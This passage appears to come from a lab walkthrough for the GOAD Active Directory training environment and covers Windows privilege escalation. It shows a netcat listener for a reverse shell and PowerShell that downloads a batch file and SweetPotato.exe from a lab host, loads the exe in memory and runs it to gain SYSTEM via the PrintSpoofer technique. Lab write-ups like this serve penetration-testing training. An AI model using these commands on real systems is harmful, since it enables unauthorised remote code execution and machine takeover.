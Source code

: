 - Prepare the listener 

```shell
nc -nlvp 4445
```

- With our reverse shell play the following command

```powershell
mkdir c:\temp
cd c:\temp
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','c:\temp\runme.bat')
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[SweetPotato.Program]::Main(@('-p=C:\temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()
```

![privesc_sweet_patatoes.png](/assets/blog/GOAD/privesc_sweet_patatoes.png)

- By default the tool use the [printSpoofer technic](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) by @itm4n
